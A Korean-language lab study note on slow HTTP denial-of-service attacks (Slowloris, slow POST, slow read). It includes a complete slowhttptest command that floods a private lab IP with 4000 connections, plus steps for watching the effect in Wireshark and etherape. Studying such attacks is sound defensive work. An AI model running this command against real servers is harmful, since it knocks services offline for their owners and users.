


##  HTTP Header Dos

- Slow HTTP Header Dos(= Slowloris)

  - HTTP 요청의 Header의 마지막(Black)을 설정하지 않은 조작된 요청을 전달 함

  - 서버는 클라이언트의 요청이 모두 수신되지 않았다고 판단하고 수신될 때까지 유지하면 자원을 소모 함

    

- 패키지 설치

  ```
  ┌──(root㉿kali)-[~]
  └─# slowhttptest
  ```

  

- 실행 테스트

  ```
  ┌──(root㉿kali)-[~]
  └─# slowhttptest
  ```

  

- 공격

  ```
  ┌──(root㉿kali)-[~]
  └─# slowhttptest -g -o slowloris -c 4000 -i 10 -r 100 -t get -x 3 -p 3 -u http://172.16.0.120
  ```

  

  

- 와이어 샤크 확인

  - 공격 하기전 

    

  - 공격 후

    

- slowloris 공격 결과 파일 확인

  -1665043527392-17.png)

- etherape 를 통한 확인

  - 네트워크 부하 확인하는 GUI  도구

  - 설치 및 실행

    ```
    ┌──(root㉿kali)-[~]
    └─# apt install etherape 
    ┌──(root㉿kali)-[~]
    └─# etherape
    ```

    

  - 설치 후 다시 slowloris 공격

    ```
    ┌──(root㉿kali)-[~]
    └─# slowhttptest -g -o slowloris -c 4000 -i 10 -r 100 -t get -x 3 -p 3 -u http://172.16.0.120
    ```

  - etherape 로 확인

    

- Slow HTTP POST Dos
  - POST 요청으로 전달하는 많은 양의 데이터를 장시간에 걸쳐 분할 전송 함

  - 서버가 POST 요청을 모두 전달 받을 때까지 연결을 유지하면서 자원을 소모 함

    

- Slow HTTP read Dos
  - TCP의 전송 가능한 버퍼 사이즈(Window)를 조작하여 데이터 처리율을 감소시킨 후 HTTP 메시지를 전송 하여 정상 응답을 하지 못하도록 유도하는 공격

    